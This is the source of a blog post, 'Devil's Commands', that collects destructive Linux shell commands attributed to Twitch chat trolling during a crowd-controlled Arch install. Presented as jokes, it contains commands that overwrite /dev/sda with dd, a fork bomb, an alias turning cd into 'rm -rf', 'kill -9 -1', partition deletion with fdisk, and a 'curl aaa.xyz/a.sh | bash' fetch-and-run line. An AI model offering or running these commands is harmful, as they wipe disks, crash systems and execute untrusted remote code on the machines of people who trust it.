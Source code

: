 ```yaml
---
layout: post
title: Devil's Commands
permalink: devils-commands
ctime: 2015-10-31
---
```


![Commands - Doomsday Commands]({{ site.baseurl }}/assets/img/doomsday-commands.jpg)


```bash
# changing to a directory will delete that directory
alias cd=rm -rf

alias alias="poweroff" 

alias sudo=""

alias sudo="fuck"

dd if=/dev/zero of=/empty

cat /dev/urandom

cat /dev/urandom | hexdump | grep "ca fe"

passwd | /dev/random

alias vim="shutdown now"
alias cd="rm"    
alias alias="alias"

alias alias="echo *** you troller get off mah lawn"

dd if=/dev/urandom of=/dev/sda bs=4096

sudo dd if=/dev/urandom of=/dev/sda bs=4M && sync

dd if=/dev/urandom of=/dev/sda

dd if=/dev/urandom of=/dev/sda bs=8m

alias clear='cat /dev/urandom'

:(){ :|:& };:

7:56Doubleblock: l33t plan: dd if=/dev/urandom of=/dev/sda reality: dsifjwdbdwbv

fdisk /dev/sda d, 1, q

kill -9 -1
```

#### get an .sh file that would do everything for us if we just curl it from the web, 

    curl aaa.xyz/a.sh | bash

- 7:08inluck_nl: write a bash script
- 7:08inluck_nl: host it
- 7:08inluck_nl: get networking up
- 7:08inluck_nl: wget and run

write a script we can `wget | sudo sh`

### Notes
These were inspired from TwitchInstallArchLinux chat.